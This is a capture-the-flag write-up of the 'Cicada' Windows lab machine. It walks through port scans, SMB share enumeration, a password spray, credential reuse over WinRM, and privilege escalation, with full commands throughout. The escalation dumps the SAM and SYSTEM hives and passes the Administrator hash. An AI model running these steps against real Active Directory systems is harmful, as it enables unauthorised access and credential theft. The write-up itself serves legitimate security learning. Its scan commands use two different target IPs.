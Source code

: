 ```yaml
---
title: Cicada
published: true
layout: post
---
```


<br />

---------------
Cicada is an easy-difficult Windows machine that focuses on beginner Active Directory enumeration and exploitation. In this machine, players will enumerate the domain, identify users, navigate shares, uncover plaintext passwords stored in files, execute a password spray, and use the `SeBackupPrivilege` to achieve full system compromise. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/zHCxx2EtufA?si=dJBh-XHmW9ayeviO" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.35 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.35 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **17 open ports**:
+ **53/tcp**
+ **88/tcp**
+ **135/tcp**
+ **139/tcp**
+ **389/tcp**
+ **445/tcp**
+ **464/tcp**
+ **593/tcp**
+ **636/tcp**
+ **3268/tcp**
+ **3269/tcp**
+ **5985/tcp**
+ **52260/tcp**
+ **53/udp**
+ **88/udp**
+ **123/udp**
+ **389/udp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.191 -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,52260 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
sudo nmap -sU 10.10.11.191 -p 53,88,123,389 -T4 --min-rate 5000 -oX open_udp_ports.xml -oN open_udp_ports.txt --version-all -n -Pn -A
```
<br />

There are a lot of services that does not provide relevant information, but the ones that do are:
+ **139/tcp Microsoft Windows netbios-ssn**
+ **389/tcp Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)**
+ **445/tcp**
+ **636/tcp Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)**
+ **3268/tcp Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)**
+ **3269/tcp Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)**

<br />

We also find out a **hostname**, so let's add it:

```bash
echo '10.10.11.35 cicada.htb' | sudo tee --append /etc/hosts
```
<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.191 -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,52260 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
sudo nmap -sU 10.10.11.191 -p 53,88,123,389 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN udp_vulns.txt -oX udp_vulns.xml -n -Pn
```
<br />

These scans didn't return any relevant information.
<br />

------
<br />
### Foothold

The first thing we can do when seeing **SMB open ports (139/tcp and 445/tcp)** is listing SMB shares:

```bash
smbclient -L \\\\10.10.11.35
```

![](/assets/Cicada/1.png)
<br />
<br />

We can see some inusual shares, **DEV and HR**, we can try to list their contents:

```bash
smbclient \\\\10.10.11.35\\DEV
smbclient \\\\10.10.11.35\\HR
```

![](/assets/Cicada/2.png)
<br />
<br />

There is a **file in the HR share**, let's bring it to our machine and inspect it:

```bash
get 'Notice from HR.txt'
exit
cat 'Notice from HR.txt'
```

![](/assets/Cicada/3.png)
<br />
<br />

Great! There is a **default password**! Now we need to enumerate users to perform **password spraying**:

```bash
impacket-lookupsid -no-pass guest@cicada.htb
```

![](/assets/Cicada/4.png)
<br />
<br />

We found a nice **list of usernames**, let's copy them to a text file and perform password spraying, I would use THC-Hydra, but somewhy it doesn't work, so I used Metasploit:

```bash
msfconsole -x 'use auxiliary/scanner/smb/smb_login; set RHOSTS 10.10.11.35; set SMBPass Cicada$M6Corpb*@Lp#nZp!8; set USER_FILE ../exploits/users.txt; set SMBDomain cicada.htb; run'
```

![](/assets/Cicada/5.png)
<br />
<br />

Great! User **michael.wrightson** uses the default password, let's see what information can we get from SMB using this credentials:

```bash
crackmapexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

![](/assets/Cicada/6.png)
<br />
<br />

It seems that **david.orelious** is a bit forgetful, let's leverage it's password:

```bash
smbclient \\\\10.10.11.35\\DEV -U cicada.htb/david.orelious%'aRt$Lp#7t*VQ!3'
```

![](/assets/Cicada/7.png)
<br />
<br />

Let's inspect that script:

```bash
get 'Backup_script.ps1'
exit
cat 'Backup_script.ps1'
```

![](/assets/Cicada/8.png)
<br />
<br />

Another plain text password, let's leverage it too:

```bash
evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i cicada.htb
```

![](/assets/Cicada/9.png)
<br />
<br />

------
<br />
### Privilege Escalation

By performing a little bit of enumeration we can see that emily.oscars has **sensitive privileges**:

```bash
whoami /all
```

![](/assets/Cicada/10.png)
<br />
<br />

**SeBackupPrivilege** allows us to copy any file as a backup, so let's retrieve **SAM** and **SYSTEM** from the **registry**:

```bash
reg save hklm\sam C:\Users\emily.oscars.CICADA\Desktop\sam.hive
reg save hklm\system C:\Users\emily.oscars.CICADA\Desktop\system.hive
```
<br />

Let's send this to our Kali machine and retrieve **Administrator's hash**:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![](/assets/Cicada/11.png)
<br />
<br />

We got **LM and NTLM hash**, let's leverage it and print the **root flag**:

```bash
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i 10.10.11.35
```

![](/assets/Cicada/12.png)
<br />
<br />
